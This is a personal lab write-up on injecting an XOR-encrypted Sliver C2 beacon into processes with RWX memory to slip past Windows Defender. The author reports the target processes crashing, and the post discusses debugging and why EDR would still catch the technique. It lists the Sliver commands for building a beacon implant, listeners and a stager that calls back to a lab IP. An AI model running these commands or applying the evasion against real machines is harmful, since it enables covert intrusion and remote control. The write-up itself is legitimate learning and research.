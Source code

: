 +++
title = 'Injecting Shellcode Via RWX Protected Memory Regions'
date = 2025-07-10
draft = false
+++


## 1. PREFACE
---

So I've been doing some couples of malware academy modules and reverse engineering malwares, but i've never tried to officially bypass windows defender and inject a shellcode. So, I’ve been trying a simple defense evasion technique for windows defender by enumerating processes with a RWX Protected memory region to inject my sliver beacon combined with XOR encryption. One point to note is that, even though it bypasses windows defender antivirus, that doesn't mean that it does not leave other IOC's and to apply this in a real world scenario would require additional stealth features. In this blog, I'll talk about my "successes..." and challenges.


⚠️ `Be ready to be disappointed...`


## 2. SETUP
---

#### SETTING UP SLIVER C2 ON KALI

1. Generating beacon profile implant : `profiles new beacon --mtls 192.168.38.128 --os windows --arch amd64 --format shellcode --seconds 5 --jitter 3 win_implant`

>⚠️`--skip-symbols` disables obfuscation

2. Starting the mtls listener : `mtls`
3. Starting the stage listener : `stage-listener --url tcp://192.168.38.128:8443 --profile win_implant`
4. See you listener : `jobs`
5. Generate the stager : `generate stager --lhost 192.168.38.128 --lport 8443 --arch amd64 --format c --save /tmp`

>[!warning]
>You might encounter issues while trying to generate your stager, if you've installed sliver with this : `curl https://sliver.sh/install|sudo bash`. You might need to install it from the release binaries

#### SETTING UP TARGET WINDOWS MACHINE

1. Install Windows on a VM
2. Make sure windows defender is up to date and activated


## 3. Development
---

1. Enumerating the processes
2. If we're able to open the process, we'll have query inside it's memory to find a memory section with RWX
3. Once we find it we will decrypt and inject the shellcode inside that memory region and then start a thread starting from that section
4. We should get a reverse shell connection back to our `Slvier C2` if everything went well (sadly we don't😢)



## Problems encountered
---

- My payload kept getting injected into `SearchApp.exe` which is only used when performing searches and by looking at the process inside `System Informer` formerly known as `Process Hacker`, I could see that the process is almost always in a suspended state, unless i perform searches on the host, so i thought that was the problem

{{< image src="/images/Pasted image 20250705004129.png" alt="20250705004129" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- So I tried to perform a search, so that the process would resume, but as soon as it resumed it crashed...

- I also could see that even though my shellcode was written inside the memory, it was not fully written, but only portion

{{< image src="/images/Pasted image 20250708172711.png" alt="20250708172711" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- So i went in x64dbg, to in x32dbg to inspect it a little bit further (the beauty of learning reverse engineering, I still suck btw)
    1. Set a breakpoint on `WriteProcessMemory`, so the first process that has `RWX` 
    2. Go on the memory section and identify the third argument and follow in dump, execute till return and see a change happening in the dump
    3. Follow the pointer that was written in the next dump tab and you will see the shellcode

{{< image src="/images/Pasted image 20250708211454.png" alt="20250708211454" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

{{< image src="/images/Pasted image 20250708211552.png" alt="20250708211552" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

{{< image src="/images/Pasted image 20250708211707.png" alt="20250708211707" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- I could clearly see that my shellcode was passed fully to the `WriteProcessMemory`, but anyway by changing my code a little bit and how I was passing my shellcode the function, I was able to fix it


{{< image src="/images/poc8.png" alt="poc8" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}

- This did not fix the real problem, so I thought maybe I should inject in another process, maybe that would give a different result, so this is what I did, but as soon as the shellcode got injected and I created a thread to start at that newly written memory region, the program crashed...what is going on? this is not good, even though this is a lab, I was thinking in a real world scenario if you see some of your app crash, after running a program, this will immediately trigger a red alert, even though windows defender doesn't detect anything

- Maybe pausing the process, inject the shellcode and then resume, would fix the problem but, no, I got the same result

- So, I tried a bunch of different things, but always ended up at the same result, but, at least the good news is that I was able to bypass windows defender, right? We have to stay positive in this field, count them small wins...

{{< image src="/images/Pasted image 20250624141138.png" alt="20250624141138" position="center" style="border-radius: 6px; margin-top: 20px; margin-bottom: 20px; margin-left: auto; margin-right: auto" >}}


### 3. Conclusion
---

To conclude, even though this gets undected by the windows defender antivirus, it still would get detected by an EDR and this angle is not stable enough. What i mean by that, is that since we're overwritting a section of memory that has the RWX Protected Memory Region, i can deduce that the app crashes because we might be overwritting a critical section of the process that is needed to make the process run smoothly. Also, if you see an app crash, this could potentially lead your malware to be discovered which is no good. This type of defense evasion is a good learning experience, but to apply this into a real world scenario would require additionnal tweaks or a different approach.